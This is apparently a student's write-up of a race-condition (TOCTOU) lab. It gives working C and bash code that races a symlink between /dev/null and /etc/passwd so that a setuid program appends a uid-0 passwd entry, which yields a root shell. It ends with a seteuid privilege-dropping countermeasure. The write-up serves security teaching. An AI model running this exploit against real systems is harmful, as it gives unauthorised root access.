 ```yaml
---
title: Race Condition Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Fail to edit it even use root `vim`.

So first change its owner
```bash
sudo chown seed /etc/passwd
```
Then modify the file and return it to `root`
```bash
sudo chown root /etc/passwd
```
> I think the instruction can give more easy options: `sudo adduser test` then enter `U6aMy0wojraho` as its password or use GUI following [this document](https://help.ubuntu.com/stable/ubuntu-help/user-add.html.en). Anyway, **it is too dangerous to edit `/etc/passwd` directly**.

Yes, I can log in test user using just an enter press and get the root privilege.

```
[03/09/20]seed@VM:~/.../race$ su - test
Password: 
root@VM:~# whoami
root
```

write a file named `passwd_input` with the one-line content:

```
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

# Task 2

Use `attack_process.c` to keep changing what `/tmp/XYZ` points to.

```c
#include <unistd.h>

int main()
{
    while (1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```

Compilation:

```
gcc -o attack_process attack_process.c
```

Run `./attack_process` and start a new user shell execute `target_process.sh` (with `bash target_process.sh` command or use `chmod u+x target_process.h` before):

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Finally, the attack works:

![Get the root shell](./attack.png)

# Task 3

Edit `vulp.c` as:

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    uid_t real_uid = getuid();
    uid_t eff_uid = geteuid();

    /* get user input */
    scanf("%50s", buffer);

    seteuid(real_uid);

    fp = fopen(fn, "a+");
    if (fp) // Instead of checking by access(), directly check if open() returns proper pointer. **Note that it should not be compared with -1 as the textbook suggests.**
    {
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else
        printf("No permission \n");

    seteuid(eff_uid);
}
```

Note the modifications in Line 10-11, 16, 18-19 and 28.

- Before accessing the file, use `seteuid` to set the effective user ID to the real user ID, which disables its root privilege temporarily.
- After writing, use `seteuid` to set the effective user ID to its original value, which recovers its root privilege.
- Directly checking if `open()` return the file pointer instead of using `access()` to check the privilege.

Then the attack fails, the countermeasure stops the program from invoking the `open()` system call due to no root privilege.
